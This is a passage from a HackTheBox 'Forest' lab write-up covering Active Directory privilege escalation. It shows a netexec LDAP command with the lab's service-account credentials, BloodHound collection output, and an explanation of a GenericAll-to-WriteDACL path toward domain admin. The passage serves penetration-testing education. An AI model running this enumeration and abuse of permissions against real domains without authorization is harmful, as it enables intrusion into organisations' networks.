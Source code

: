 It worked, and the user flag was on the desktop.

## Getting Admin

Before getting into bloodhound, I tried enumerating the system I had gotten into using some default Powershell modules. It was then that I realized I need to make a cheatsheet for this as I didn't have one on hand. Some googling was done, and I got a bunch of details about the system, the groups and users.

I decided to get bloodhound up and running because a visual representation is so much better than lines of text.

The first step was to netexec ldap and the bloodhound ingestor to grab information on the domain.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# nxc ldap 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --bloodhound --collection All --dns-server 10.10.10.161
LDAP        10.10.10.161    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
LDAP        10.10.10.161    389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.10.10.161    389    FOREST           Resolved collection methods: rdp, container, trusts, session, objectprops, dcom, psremote, localadmin, acl, group
LDAP        10.10.10.161    389    FOREST           Done in 00M 13S
LDAP        10.10.10.161    389    FOREST           Compressing output into /root/.nxc/logs/FOREST_10.10.10.161_2025-07-22_073729_bloodhound.zip
```

We mark the svc-alfresco account as something we've owned, and the goal is to get to Administrator.

Using bloodhound I can see that svc-alfresco belongs to a few groups, and one of them (Account Operators) has the `GenericAll` permission over Exchange Windows Permissions. This in turn as `WriteDACL` permissions over the HTB.LOCAL domain which contains the admin account.

![](Assets/Pasted%20image%2020250722160026.png)

